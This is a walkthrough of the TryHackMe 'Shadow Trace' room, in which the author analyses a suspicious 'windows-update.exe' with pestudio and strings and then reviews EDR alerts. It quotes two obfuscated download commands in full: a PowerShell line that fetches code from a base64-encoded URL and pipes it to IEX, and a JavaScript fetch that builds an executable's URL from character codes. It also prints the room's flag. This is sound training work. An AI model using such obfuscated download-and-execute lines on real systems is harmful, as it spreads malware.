








# Shadow Trace
Analyse a suspicious file, uncover hidden clues, and trace the source of the infection.

## Quick Overview 
It’s the middle of the night shift. You’re the only analyst in the SOC when a manager calls in urgently: a suspicious file was found on a user's machine and needs immediate review.

You open the file and start digging. Something doesn’t look normal for a company updater, and at the same time, the EDR throws a couple of alerts.

Your task: analyse the file, collect anything to identify it, gather any potential IOCs, correlate and analyse the alerts for potential malicious behaviour. It’s up to you to piece together what’s happening before it spreads further.

-- \
This is a TryHackMe [room](https://tryhackme.com/room/shadowtrace) - EASY 

Tools:
- pestudio

## Questions 
### What is the architecture of the binary file windows-update.exe?

Let's use pestudio in order to gather informations and start the analysis :


-> 64-bit

### What is the hash (sha-256) of the file windows-update.exe?

On the indicators (imports > flag), we can see the sHA256 hash 


### Identify the URL within the file to use it as an IOC


In the same page, string with an URL pattern are declared.

### With the URL identified, can you spot a domain that can be used as an IOC?

We already found a URL pattern before, we don't see here in the pestudio, so we can try the good ol' strings cmd :


And here we found the subdomains.

### Input the decoded flag from the suspicious domain

While searching for the subdomain, we also find someting interesting : 
`tryhatme[.]com/VEhNe3lvdV9nMHRfc29tZV9JT0NzX2ZyaWVuZH0=`

Let's decode it : THM{you_g0t_some_IOCs_friend}

### What library related to socket communication is loaded by the binary?



In psetudio, we can easily see every library used in the projet. Here, wil lsearching for a bit, we found WS2_32.dll (The windows DLL Socker 2.0)

### PART 2
### Can you identitfy the malicious URL from the trigger by the process powerhsell.exe ?

Here, shadow trace : 


The powershell command try to download something from an encoded b64 url : 
```
(new-object system.net.webclient).DownloadString([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl"))) | IEX;
```
The base64 part stand for : `https[.]//tryhatme.com/dev/main.exe`

### Can you identify the malicious URL from the alert triggered by chrome.exe?

Now, we have a trace of suspicious activity on the browser 
```
fetch([104,116,116,112,115,58,47,47,114,101,97,108,108,121,115,101,99,117,114,101,117,112,100,97,116,101,46,116,114,121,104,97,116,109,101,46,99,111,109,47,117,112,100,97,116,101,46,101,120,101].map(c=>String.fromCharCode(c)).join('')).then(r=>r.blob()).then(b=>{const u=URL.createObjectURL(b);const a=document.createElement('a');a.href=u;a.download='test.txt';document.body.appendChild(a);a.click();a.remove();URL.revokeObjectURL(u);});
```

Here, it's not b64 but Decimal :
`104,116,116,112,115,58,47,47,114,101,97,108,108,121,115,101,99,117,114,101,117,112,100,97,116,101,46,116,114,121,104,97,116,109,101,46,99,111,109,47,117,112,100,97,116,101,46,101,120,101` stand for `https[:]//reallysecureupdate.tryhatme.com/update.exe`



### What's the name of the file saved in the alert triggered by chrome.exe?

In the Chrome payload, we can see a tiny "test.txt" file. 

And we are done :)

And yet, we earned a new badge

